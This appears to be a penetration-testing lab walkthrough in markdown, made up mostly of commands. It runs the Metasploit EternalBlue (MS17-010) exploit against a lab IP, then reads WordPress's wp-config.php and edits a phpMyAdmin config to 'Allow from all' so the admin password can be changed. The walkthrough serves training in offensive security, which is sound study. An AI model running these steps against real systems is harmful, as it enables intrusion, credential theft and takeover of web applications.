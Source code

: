 ```bash
# Opne the MSF tab
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.2.26.45
run
```

```bash
sysinfo
```

- Move into the `wamp` folder

```bash
cd /
cd wamp
dir
cd www\\wordpress
cat wp-config.php
```

![](.gitbook/assets/image-20230424124543517.png)

- Change WordPress `admin` password

```bash
cd C:\\wamp\\alias
download phpmyadmin.conf

# In another terminal modify the file
vim /root/Desktop/phpmyadmin.conf
# modify it by deleting the lines under "AllowOverride all" and insert
	Allow from all

# Write and close
```
